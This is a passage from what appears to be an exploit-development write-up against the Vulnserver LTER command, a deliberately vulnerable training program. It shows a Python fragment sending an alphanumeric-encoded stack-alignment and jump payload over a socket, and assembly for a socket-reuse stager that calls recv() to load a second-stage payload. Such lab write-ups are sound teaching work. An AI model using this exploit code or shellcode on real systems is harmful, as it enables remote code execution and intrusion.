 ``` python
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And check it:

<div class="imgblock">

![Long jump success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331200/blog/vulnserver-lter-seh/long-jump-success1_rmm8w0.gif)

</div>

Fantastic\! Now we have enough room for encoding something really
useful.

We will use the stager shellcode applied to exploit the `KSTET` command,
with only a slight modification on the `ESP` alignment (2 bytes instead
of 64; more information of that stager on the [KSTET
writeup](../vulnserver-kstet/)):

**shellcode.asm.**

``` x86asm
sub esp,0x2                ; Align ESP 2 bytes above
xor edi,edi             ; Zero out EDI
socket_loop:            ; Our bruteforce loop starts here
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp             ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI = EDI + 1
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
                        ; EDI will be increased to check the next socket handle
```
